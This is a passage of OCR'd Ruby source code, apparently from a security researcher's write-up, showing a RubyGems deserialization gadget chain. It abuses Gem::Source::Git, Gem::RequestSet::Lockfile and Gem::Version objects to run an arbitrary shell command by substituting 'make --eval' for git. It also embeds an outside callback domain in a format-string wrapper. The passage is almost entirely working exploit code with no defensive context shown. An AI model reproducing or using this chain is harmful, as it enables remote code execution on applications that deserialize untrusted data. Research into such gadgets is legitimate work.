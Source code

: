```
  source = Gem::Source.allocate
  source.instance_variable_set("@uri", uri)
  source.instance_variable_set("@update_cache", true)

  index_spec = Gem::Resolver::IndexSpecification.allocate
  index_spec.instance_variable_set("@name", "name")
  index_spec.instance_variable_set("@source", source)

  request_set = Gem::RequestSet.allocate
  request_set.instance_variable_set("@sorted_requests", [index_spec])

  lockfile = Gem::RequestSet::Lockfile.new('','','')
  lockfile.instance_variable_set("@set", request_set)
  lockfile.instance_variable_set("@dependencies", [])

  return lockfile
end

def git_gadget(executable, second_param)
  git_source = Gem::Source::Git.allocate
  git_source.instance_variable_set("@git", executable)
  git_source.instance_variable_set("@reference", second_param)
  git_source.instance_variable_set("@root_dir", "/tmp")
  git_source.instance_variable_set("@repository", "any")
  git_source.instance_variable_set("@name", "any")

  spec = Gem::Resolver::Specification.allocate
  spec.instance_variable_set("@name", "any")
  spec.instance_variable_set("@dependencies",[])

  git_spec = Gem::Resolver::GitSpecification.allocate
  git_spec.instance_variable_set("@source", git_source)
  git_spec.instance_variable_set("@spec", spec)

  spec_specification = Gem::Resolver::SpecSpecification.allocate
  spec_specification.instance_variable_set("@spec", git_spec)

  return spec_specification
end

def command_gadget(command_to_execute)
  # improvement 2
  git_gadget_execute_cmd = git_gadget("make", "--eval=rev-parse:\n\t-#{command_to_execute}")

  request_set = Gem::RequestSet.allocate
  request_set.instance_variable_set("@sorted_requests", [git_gadget_execute_cmd])

  lockfile = Gem::RequestSet::Lockfile.new('','','')
  lockfile.instance_variable_set("@set", request_set)
  lockfile.instance_variable_set("@dependencies",[])

  return lockfile
end

def to_s_wrapper(inner)
  # improvement 3 - note we cannot use allocate + instance_variable_set
  # as the instance variable name does not begin with @
  ute = UncaughtThrowError.new(inner, nil, "%.0s1337.nastystereo.com")

  version = Gem::Version.allocate
  version.instance_variable_set("@version", ute)

  return version
```